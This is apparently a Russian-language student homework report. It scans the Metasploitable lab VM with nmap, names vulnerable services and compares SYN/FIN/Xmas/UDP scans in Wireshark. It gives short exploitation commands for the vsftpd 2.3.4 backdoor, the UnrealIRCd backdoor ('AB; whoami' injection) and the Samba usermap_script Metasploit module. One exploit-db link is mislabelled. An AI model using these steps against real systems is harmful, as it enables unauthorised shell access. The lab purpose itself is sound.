 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Барышков Михаил`

## Задание 1

Скачайте и установите виртуальную машину Metasploitable: <https://sourceforge.net/projects/metasploitable/>.

Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.

Просканируйте эту виртуальную машину, используя **nmap**.

Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.

Сами уязвимости можно поискать на сайте <https://www.exploit-db.com/>.

Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
  
*Приведите ответ в свободной форме.*

---

## Решение 1

1. **Сетевые службы, разрешенные на виртуальной машине:**

![фото1](img/img1.png)
![Фото2](img/img2.png)

В результате сканирования `nmap -sV -A` были обнаружены следующие открытые порты и службы:

- **21/tcp** - FTP (vsftpd 2.3.4)
  - Анонимный вход разрешен (Anonymous FTP login allowed).
- **22/tcp** - SSH (OpenSSH 4.7p1)
- **23/tcp** - Telnet (Linux telnetd)
- **25/tcp** - SMTP (Postfix)
- **53/tcp** - DNS (ISC BIND 9.4.2)
- **80/tcp** - HTTP (Apache 2.2.8)
- **111/tcp** - RPCbind
- **139/tcp, 445/tcp** - Samba (SMB, версия 3.0.20-Debian)
- **3306/tcp** - MySQL (5.0.51a-3ubuntu5)
- **5900/tcp** - VNC (протокол 3.3)
- **6667/tcp** - IRC (UnrealIRCd 3.2.8.1)

2. **Обнаруженные уязвимости (3 примера):**

     1. **Уязвимость в vsftpd 2.3.4 (Backdoor Command Execution)**

    - **Описание:** В версии vsftpd 2.3.4 присутствует бэкдор, который позволяет злоумышленнику выполнить произвольные команды на сервере.
    - **[Ссылка: Exploit-DB: 17491](https://www.exploit-db.com/exploits/16922)**
    - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 21
        USER anyuser:)  
        PASS anypass  
        ```

    После этого бэкдор открывает порт 6200, через который можно получить shell.

    2. **Уязвимость в UnrealIRCd 3.2.8.1 (Backdoor Command Execution)**

     - **Описание:** В данной версии UnrealIRCd присутствует скрытый бэкдор, добавленный злоумышленниками.
     - **[Ссылка: Exploit-DB: 16922](https://www.exploit-db.com/exploits/16922)**
     - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 6667  
        AB; whoami
        ```

    Сервер выполнит команду whoami и вернет результат.

    3. **Уязвимость в Samba 3.0.20 (Username Map Script Command Execution)**

    - **Описание:** Позволяет выполнить произвольные команды через некорректную обработку параметров в username map script.
    - **[Ссылка: Exploit-DB: 16320](https://www.exploit-db.com/exploits/16320)**
    - **Метод эксплуатации:**

        ```sh
        msfconsole  
        use exploit/multi/samba/usermap_script  
        set RHOSTS <TARGET_IP>  
        exploit
        ```  

    В результате получаем shell с правами root (на Metasploitable).

3. **Дополнительные замечания:**

    - **FTP (vsftpd 2.3.4):** Анонимный вход позволяет загружать/скачивать файлы без аутентификации.
    - **Samba 3.0.20:** Открытый доступ к общим папкам (/tmp).
    - **MySQL 5.0.51a:** Устаревшая версия с известными уязвимостями.
    - **Apache 2.2.8:** Возможны уязвимости типа Directory Traversal или RCE (например, через PHP-скрипты).

**Рекомендации:**

- Обновить все службы до актуальных версий.
- Запретить анонимный доступ к FTP и Samba.
- Отключить ненужные сервисы (Telnet, VNC).

## Задание 2

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.

Запишите сеансы сканирования в Wireshark.

Ответьте на следующие вопросы:

- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
- Как отвечает сервер?

*Приведите ответ в свободной форме.*

---

## Решение 2

## Отчет по сканированию Metasploitable различными методами Nmap

### 1. Сравнение режимов сканирования

| Метод       | Флаги TCP | Принцип работы                                                                 | Преимущества                          | Недостатки                          |
|-------------|-----------|-------------------------------------------------------------------------------|---------------------------------------|-------------------------------------|
| **SYN** (-sS) | SYN       | Отправка SYN, анализ ответа (SYN-ACK/RST)                                     | Быстрое, надежное                     | Требует root-прав                  |
| **FIN** (-sF) | FIN       | Отправка FIN, анализ ответа (RST/нет ответа)                                  | Обходит простые файрволы              | Менее надежное                      |
| **Xmas** (-sX)| FIN+PSH+URG | Аналогично FIN, но с дополнительными флагами                                 | Сложнее для детектирования           | Заметнее в сети                     |
| **UDP** (-sU) | UDP       | Отправка UDP-пакета, анализ ICMP-ответа                                       | Обнаруживает UDP-сервисы              | Очень медленное                     |

### 2. Поведение сервера при разных типах сканирования

- #### SYN-сканирование

Клиент → Сервер: [SYN]
Сервер → Клиент: [SYN, ACK] (порт открыт)
Клиент → Сервер: [RST] (разрыв)
ИЛИ
Сервер → Клиент: [RST] (порт закрыт)

![фото3](img/img3.png)
![фото4](img/img4.png)

[Файл WireShark SYN](SYN.pcapng)

- #### FIN-сканирование

Клиент → Сервер: [FIN]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

![фото5](img/img5.png)
![фото6](img/img6.png)

[Файл WireShark FIN](FIN.pcapng)

- #### Xmas-сканирование

Клиент → Сервер: [FIN, PSH, URG]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

![фото7](img/img7.png)
![фото8](img/img8.png)

[Файл WireShark Xmas](Xmas.pcapng)

- #### UDP-сканирование

Клиент → Сервер: [UDP-пакет]
Сервер → Клиент: [ICMP Port Unreachable] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

![фото9](img/img9.png)
![фото10](img/img10.png)

[Файл WireShark UDP](UDP.pcapng)

### 3. Практические наблюдения из Wireshark

- **SYN**: Четкие SYN-SYNACK-RST последовательности для открытых портов
- **FIN/Xmas**: Отсутствие ответа на открытые порты может давать ложные срабатывания
- **UDP**: Длительные паузы между проверками, ICMP-пакеты при закрытых портах
